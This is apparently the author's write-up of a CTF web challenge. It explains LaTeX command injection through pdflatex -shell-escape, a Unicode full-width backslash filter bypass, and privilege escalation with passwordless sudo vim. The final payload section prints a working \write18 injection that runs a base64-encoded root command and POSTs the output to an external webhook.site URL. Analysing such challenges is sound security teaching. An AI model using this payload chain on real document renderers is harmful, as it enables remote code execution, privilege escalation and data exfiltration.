



# Mark Me Down — MCTF 2025

**Category:** Web  
**Flag:** `mctf{1_WonT_U$e_1@73X_nEVEr_3VEr_4g@iN}`
**type:** Black Box
**Author:** COn4n
## Design Intent

I created Mark Me Down to test whether solvers could step outside the typical web security mindset. Most web challenges involve DOM manipulation, HTTP exploits, or database attacks. I wanted to build something where the *renderer itself* was the attack surface, not the web layer.

The core idea: what if the PDF generation (especially for markdown rendering) backend wasn't using a browser engine like Puppeteer or Chromium, but something fundamentally different? LaTeX is an obvious choice - it's used on many servers for document generation, it has shell escape capabilities, and most web developers don't think to test for TeX injection.






## The Architecture

The challenge runs a simple Node.js API that accepts markdown, pipes it into a LaTeX document, and invokes `pdflatex` with the `-shell-escape` flag. The flag `-shell-escape` is critical 

**without it, there's no vulnerability. or maybe there is? we will see in another CTF xD**.

The `/render` endpoint accepts JSON with a `markdown` field and returns structured data including:
- The PDF URL
- An expiration time
- A `clean_markdown` field showing what was actually sent to LaTeX *after normalization*

That `clean_markdown` field is the critical hint. It exposes the sanitization logic by showing how the backend normalizes Unicode characters. Solvers who examine this field will notice that full-width characters get normalized to their ASCII equivalents — which is the vulnerability.

```json
{
  "pdf_url": "url of pdf",
  "expires_in": 1800,
  "clean_markdown": "hello" 
}
```


## The Filter: Intentional Weakness

I didn't block just backslashes — I blocked specific LaTeX command patterns like `\write18`, `\input`, `\immediate`, etc. This filter is pattern-based, looking for the latex commands.




But here's the flaw: I filtered on the ASCII representation of these commands, not on their Unicode equivalents. When a solver sends the full-width backslash `＼write18`, it bypasses the ASCII pattern match.

The real trick is in the `clean_markdown` field. My backend normalizes Unicode full-width characters to their ASCII equivalents before passing to LaTeX. So even though `＼write18` bypasses the regex filter with the
full-width backslash character, the `clean_markdown` response reveals that it was normalized to `\write18` — showing the solver exactly what the LaTeX engine will receive.

This is a teaching moment: Unicode normalization is powerful, but it can become a vulnerability when combined with inadequate filtering. Character filtering needs to be Unicode-aware from the start, and developers should normalize *before* filtering, not after.

**Note:** An alternative path is using bypass LaTeX's `^^5c` hex notation would also work, this wasn't the intended solution but it teaches the same lesson about incomplete filtering even for the author of this challenge xD.

`COn4n 0 - 1 Codex` , well but I got my revenge in the second challenge dw.

## The Privilege Escalation

Once solvers gain command injection via `\write18`, they immediately hit a wall: the renderer runs as an unprivileged user, so reading `/flag/flag.txt` directly fails.

This is intentional. I wanted to add a second layer of exploitation. The real-world lesson: command injection is only half the battle if you don't have the right privileges and to make AI suffer a little bit more...

I configured the system so the renderer user can run `vim` with `sudo` without a password. Vim is universally available and often overlooked as a privilege escalation vector. Most people know `sudo -i` or password-less sudoers entries for scripts, but fewer recognize that interactive tools like vim can spawn shells.

The command:
```bash
sudo vim -Es -c '!cat /flag/flag.txt' -c 'qa!'
```

This is the intended solution path. `-E` (noplugin) and `-s` (silent mode) prevent interactive prompts, `-c '!command'` executes a shell command directly, and `-c 'qa!'` exits without saving. It's elegant and gets root command execution in one line.

## The Payload

The final payload wraps a Node.js script in LaTeX command injection:

```js
＼write18{echo "const { exec } = require('child_process');const https = require('https');const command=atob('c3VkbyB2aW0gLUVzIC1jICchY2F0IC9mbGFnL2ZsYWcudHh0JyAtYyAncWEhJw');exec(command, (err, stdout, stderr) => {const data = JSON.stringify({output: stdout, error: stderr});const req = https.request('https://webhook.site/webhook-id',{method:'POST',headers:{'Content-Type':'application/json','Content-Length':Buffer.byteLength(data)}});req.write(data);req.end();});" > /app/test.cjs && node /app/test.cjs 2> /app/log.txt}
```

log.txt will contain nothing but the error output of the command, can be used to debug if the payload is malformed or if the command execution fails for some reason.


Base64 decodes to:
```bash
sudo vim -Es -c '!cat /flag/flag.txt' -c 'qa!'
```

I base64-encoded the critical command to avoid shell metacharacter escaping issues when the payload is embedded in the echo command. It's a practical touch that makes the exploit more reliable.


## The Flag

`mctf{1_WonT_U$e_1@73X_nEVEr_3VEr_4g@iN}`

The flag message itself is commentary on LaTeX — "I won't use LaTeX never ever again." It's a subtle jab at how dangerous `-shell-escape` is and how most developers (rightfully) avoid using it.


